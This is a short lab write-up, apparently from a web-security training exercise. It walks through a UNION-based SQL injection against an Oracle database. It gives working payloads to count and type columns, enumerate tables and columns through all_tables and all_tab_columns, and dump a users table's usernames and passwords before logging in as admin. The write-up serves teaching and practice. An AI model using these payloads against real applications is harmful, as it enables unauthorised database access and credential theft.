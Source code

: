 
### SQL injection attack, listing the database contents on Oracle

---

> First, identify the number of output fields in the query. Do that using the adding `NULL` method. It is an oracle DB, so must add `FROM DUAL`.
```
' UNION SELECT NULL, NULL FROM DUAL--
```
> it has 2 output fields.

> Next, we determine the type of the output fields. We need to extract a username and a password, so we are looking for text type string.
```
' UNION SELECT 'a', NULL FROM DUAL-- 
' UNION SELECT NULL, 'a' FROM DUAL--
```
> Both work, hence both are strings.

> Since this is oracle, we can use `all_tables` to enumerate the tables of this database.
```
' UNION SELECT TABLE_NAME, NULL FROM all_tables --
```
> Choosing to attack the `USERS_QTKCOM` table.

> We need to find the column names of this table to check that they are indeed the usernames and passwords as required.
```
' UNION SELECT COLUMN_NAME, NULL FROM all_tab_columns WHERE table_name = 'USERS_QTKCOM' --
```

> 2 new rows were output that contain the column name for usernames and passowrds.
* PASSWORD_TMVXQH
* USERNAME_SITQKU

> Now, we need to get the data inside these columns using a normal query
```
' UNION SELECT USERNAME_SITQKU, PASSWORD_TMVXQH FROM USERS_QTKCOM --
```
> This outputs the usernames and passowrds in new rows.

![usersandpass](./screenshots/usernamepass.png)

> We can now login as admin and complete the lab.

---
